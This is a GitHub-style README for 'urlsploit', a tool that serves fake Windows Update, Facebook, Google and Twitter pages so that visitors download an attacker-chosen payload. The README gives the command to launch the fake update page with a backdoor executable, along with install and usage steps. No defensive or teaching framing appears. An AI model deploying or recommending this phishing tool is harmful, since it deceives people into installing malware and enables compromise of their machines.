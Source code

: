 # urlsploit
Payload delivery via URL and some social engineering.

## Running Urlsploit
```
sudo python3 urlsploit.py -t windows -p /home/user/backdoors/windows_update.exe
```
The above command will start a Legit looking fake Windows update page that triggers file download.

![sample_one](https://github.com/quantumcore/urlsploit/blob/master/img/main.png)
![sample_two](https://github.com/quantumcore/urlsploit/blob/master/img/two.png)

## Installation 
```
git clone https://github.com/quantumcore/urlsploit
cd urlsploit
python3 -m pip install -r requirements.txt
```

### Usage 
```
$ python3 urlsploit.py --help
usage: urlsploit.py [-h] --t T --p P

optional arguments:
  -h, --help          show this help message and exit
  --t T, -template T  The template to use.
  --p P, -payload P   The path of payload to send.
```

### Templates
- [x] Facebook
- [x] Google 
- [x] Twitter
- [x] Windows Update
- [ ] Discord
- [ ] Instagram
